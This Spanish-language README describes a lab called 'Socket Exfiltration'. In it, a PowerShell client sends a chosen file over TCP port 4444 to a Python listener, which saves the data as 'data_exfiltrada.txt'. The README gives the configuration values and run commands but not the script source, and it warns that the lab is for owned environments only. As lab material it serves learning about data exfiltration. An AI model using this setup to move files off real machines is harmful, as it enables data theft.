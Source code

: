 # Socket Exfiltration

Este laboratorio demuestra cómo se pueden **transferir archivos de manera controlada vía TCP** usando un servidor Python y un cliente PowerShell.

> ⚠️ Solo usar en entornos propios o laboratorios. No atacar sistemas ajenos.

---
## Componentes

### 1. Servidor TCP (Python)
- Escucha en un puerto TCP configurado (`PORT = 4444`).
- Recibe datos en chunks de 1024 bytes.
- Guarda los datos en `data_exfiltrada.txt`.
- Ejecutar:
```bash
python3 tcp_exfil_server.py
```

### 2. Cliente TCP (PowerShell)

- Envía un archivo al servidor TCP.
- Configura la IP del servidor y el archivo a enviar:
```bash
$server = "192.168.100.10"
$port = 4444
$file = "C:\Users\roman.gomez\Desktop\testing.txt"
```
- Ejecutar:
```bash
.\powershell_client.ps1
```
___
## Flujo

1. El servidor espera conexiones entrantes.
2. El cliente PowerShell se conecta y envía el archivo.
3. El servidor recibe los datos y los guarda en `data_exfiltrada.txt`.
4. Se imprime en consola confirmación de recepción.
---
## Requisitos

- Python 3.x
- PowerShell 5.1+ (Windows)
- Red interna o laboratorio controlado
